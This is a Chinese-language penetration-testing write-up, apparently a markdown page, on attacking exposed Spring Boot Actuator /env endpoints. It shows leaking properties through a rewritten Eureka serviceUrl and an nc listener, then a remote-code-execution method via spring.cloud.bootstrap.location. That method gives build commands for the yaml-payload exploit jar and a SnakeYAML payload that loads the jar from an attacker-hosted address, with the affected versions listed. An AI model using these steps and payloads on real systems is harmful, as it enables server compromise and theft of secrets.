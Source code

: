 > 如果Spring Cloud Libraries在路径中，则'/env'端点会默认允许修改Spring环境属性。 “@ConfigurationProperties”的所有bean都可以进行修改和重新绑定。 

- 例如要获取PID（这是假设，假设PID为**）

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200521232802.png)

- 修改enveureka.client.serviceUrl.defaultZone属性

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200522142507.png)

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200522165111.png)

- nc监听

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200522145420.png)

- refresh

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200522165141.png)

- base64解码获取属性

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200522165333.png)

### spring Cloud env yaml利用

>当spring boot使用Spring Cloud 相关组件时，会存在spring.cloud.bootstrap.location属性，通过修改 spring.cloud.bootstrap.location 环境变量实现 RCE

- 利用范围

**Spring Boot 2.x 无法利用成功
Spring Boot 1.5.x 在使用 Dalston 版本时可利用成功，使用 Edgware 无法成功
Spring Boot <= 1.4 可利用成功**

- 下载exp修改执行命令

```
https://github.com/artsploit/yaml-payload
```

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200522180648.png)

- 将java文件进行编译

```
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ .
```

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200522180846.png)

- 创建yaml文件并放到公网

```
 !!javax.script.ScriptEngineManager [ !!java.net.URLClassLoader [[
!!java.net.URL ["http://xxx.xxx.xxx.xxx:8000/yaml-payload.jar"] ]]
]
```
